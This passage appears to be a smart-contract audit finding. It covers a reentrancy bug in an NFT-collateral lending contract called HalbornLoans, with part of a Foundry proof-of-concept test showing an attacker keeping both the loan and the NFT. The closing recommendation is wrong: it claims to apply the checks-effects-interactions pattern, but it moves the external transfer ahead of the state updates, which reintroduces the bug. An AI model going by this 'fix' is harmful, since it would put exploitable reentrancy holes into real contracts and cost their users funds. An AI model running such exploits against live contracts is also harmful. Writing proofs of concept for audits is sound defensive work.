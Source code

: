```solidity
        nft.approve(address(loanContract), 1);

        // Attacker deposits NFT as collateral
        vm.prank(address(attacker));
        loanContract.depositNFTCollateral(1);
    }

    function testReentrancyAttack() public {
        // Attacker tries to withdraw NFT and take a loan in the same transaction
        vm.prank(address(attacker));
        attacker.attack(1, 1 ether);

        // Check the attacker's balance after the exploit
        uint256 attackerBalance = token.balanceOf(address(attacker));
        assertEq(attackerBalance, 1 ether, "Attacker should have stolen 1 ether");

        // Verify the NFT is no longer in the loan contract
        assertEq(nft.ownerOf(1), address(attacker), "Attacker should own the NFT");

        // Confirm that collateral was not properly decreased
        uint256 collateral = loanContract.totalCollateral(address(attacker));
        assertEq(collateral, 1 ether, "Collateral should not have been decreased");
    }
}

```

### Explanation of the PoC

#### Setup:
- The attacker deposits an NFT as collateral through the HalbornLoans contract.
- A malicious contract is deployed to perform a reentrancy attack.


#### **Exploit:**
- The attacker’s malicious contract calls withdrawCollateral to reclaim the NFT.
- During the external call (safeTransferFrom), the attacker triggers the reentrancy attack and takes a loan.
- Since the collateral was not yet decreased, the attacker exits with both the loan and the NFT.


### **Recommendation:**

Reorder the operations to follow the CEI pattern:


```solidity
 totalCollateral[msg.sender] -= collateralPrice;
 delete idsCollateral[id];
 nft.safeTransferFrom(address(this), msg.sender, id);
```
to
``` solidity
nft.safeTransferFrom(address(this), msg.sender, id);
totalCollateral[msg.sender] -= collateralPrice;
delete idsCollateral[id];
```

---